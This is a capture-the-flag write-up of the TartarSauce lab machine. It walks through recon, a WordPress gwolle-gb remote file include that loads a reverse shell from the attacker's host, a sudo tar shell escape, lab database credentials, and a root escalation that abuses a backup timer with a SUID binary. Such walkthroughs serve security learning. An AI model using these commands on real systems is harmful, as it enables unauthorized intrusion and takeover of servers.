


# Tartarsauce

## Machine Info


## Recon

- nmap

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Landing Page
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 5 disallowed entries
| /webservices/tar/tar/source/
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
|_/webservices/developmental/ /webservices/phpmyadmin/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.18 (96%), Linux 3.2 - 4.9 (96%), Linux 3.16 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.10 - 4.11 (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Linux 3.12 (93%), Linux 3.13 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

- web path recon

  - http://10.10.10.88/webservices/monstra-3.0.4/

  - http://10.10.10.88/webservices/wp/


- web recon

```bash
$ whatweb http://10.10.10.88/
http://10.10.10.88/ [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.88], Title[Landing Page]
```

## Foothold

### Rabbit Hole

- find `robots.txt` and following urls

```
User-agent: *
Disallow: /webservices/tar/tar/source/
Disallow: /webservices/monstra-3.0.4/
Disallow: /webservices/easy-file-uploader/
Disallow: /webservices/developmental/
Disallow: /webservices/phpmyadmin/
```

- Monstra 3.0.4: http://10.10.10.88/webservices/monstra-3.0.4/admin/

- cred: admin:admin
  1. theme editing failed, cannot save php file
  2. file upload failed, cannot upload file after bypassing extension filters

### Wordpress Plugin Out-of-Date

- wpscan site

```
-e, --enumerate [OPTS]                        Enumeration Process
                                                  Available Choices:
                                                   vp   Vulnerable plugins
                                                   ap   All plugins
                                                   p    Popular plugins
                                                   vt   Vulnerable themes
                                                   at   All themes
                                                   t    Popular themes
                                                   tt   Timthumbs
                                                   cb   Config backups
                                                   dbe  Db exports
                                                   u    User IDs range. e.g: u1-5
                                                        Range separator to use: '-'
                                                        Value if no argument supplied: 1-10
                                                   m    Media IDs range. e.g m1-15
                                                        Note: Permalink setting must be set to "Plain" for those to be detected
                                                        Range separator to use: '-'
                                                        Value if no argument supplied: 1-100
                                                  Separator to use between the values: ','
                                                  Default: All Plugins, Config Backups
                                                  Value if no argument supplied: vp,vt,tt,cb,dbe,u,m
                                                  Incompatible choices (only one of each group/s can be used):
                                                   - vp, ap, p
                                                   - vt, at, t
        --plugins-detection MODE                  Use the supplied mode to enumerate Plugins.
                                                  Default: passive
                                                  Available choices: mixed, passive, aggressive
```

- `wpscan -e ap,at,tt,cb,dbe,u,m --plugins-detection aggressive --url http://10.10.10.88/webservices/wp/`



```bash
[+] akismet -> out of date
[+] brute-force-login-protection
[+] gwolle-gb -> out of date

[+] twentyfifteen -> out of date
[+] twentyseventeen -> out of date
[+] twentysixteen -> out of date
[+] voce
```

- find vulnerable plugin


- HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request -> create local reverse shell php code inside wp-load.php -> visit `http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.39/`

```bash
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.88 - - [18/Dec/2023 03:31:27] "GET /wp-load.php HTTP/1.0" 200 -
```


## Privilege Escalation

### www-data -> onuma

- `sudo -l`


- use tar to priv esca: `sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`


### onuma -> root

- enum mysql 3306 -> nothing found


```bash
╔══════════╣ Searching passwords in config PHP files
/var/www/html/webservices/wp/wp-admin/setup-config.php: $pwd = trim( wp_unslash( $_POST[ 'pwd' ] ) );
/var/www/html/webservices/wp/wp-admin/setup-config.php: define('DB_PASSWORD', $pwd);
/var/www/html/webservices/wp/wp-admin/setup-config.php: define('DB_USER', $uname);
/var/www/html/webservices/wp/wp-config.php:define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
/var/www/html/webservices/wp/wp-config.php:define('DB_USER', 'wpuser');

mysql -u wpuser -p # w0rdpr3$$d@t@b@$3@cc3$$
mysql> select user_pass,user_nicename from wp_users;
select user_pass,user_nicename from wp_users;
+------------------------------------+---------------+
| user_pass                          | user_nicename |
+------------------------------------+---------------+
| $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 | wpadmin       |
+------------------------------------+---------------+
1 row in set (0.00 sec)
```

- found web code backup file -> <span style="color: red; font-weight: bold;">[!]</span> **mostly occurred by scheduled task as root**


- analyse this backup -> nothing sensitive leakage found, just web code

- `cat /etc/crontab` -> nothing found
- **linpeas** output -> timers found -> interesting timer **backuperer**
  - PS. another method to find this attack vector is **pspy**


- recon this timer and code audit

```bash
onuma@TartarSauce:~/.config/lxc$ cat /lib/systemd/system/backuperer.service
[Unit]
Description=Backuperer

[Service]
ExecStart=/usr/sbin/backuperer

onuma@TartarSauce:~/.config/lxc$ cat /usr/sbin/backuperer
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

- Check backup integrity: A function integrity_chk is defined to compare whether the original directory and the directory decompressed after backup are consistent to ensure the integrity of the backup.
- Verify the backup: Extract the temporary backup file to the check directory and use the integrity_chk function to verify the integrity of the backup.



- check file permission is root:root
- the malicious file would remain the same permissions (root+suid)
- diff compares basedir and check+basedir

So, important but tiny points:

1. tar **./var/www/html/file** instead of ./file
2. compile the source code to a **x86** and **static** elf binary file `$ gcc qwe.c -m32 -static -o a`

Exploiting:

- wait the time


- change the temporary file with our own gzip file


- wait extraction and check directory created -> execute root+suid file


**Lastly**, the automatic script is in [zhsh9/HTB-TartarSauce-PrivEsca: TartarSauce: privilege escalation process from onuma to root. (github.com)](https://github.com/zhsh9/HTB-TartarSauce-PrivEsca). Press a star button if you like this writeup and scripts.

## Exploit Chain

path recon -> two websites -> one rabbit -> wpscan plugins -> out-of-date vulnerable plugin found -> ww-data shell -> sudo -l = tar -> onuma shell -> scheduled task by timer -> code audit -> usage of 30 seconds -> root shell
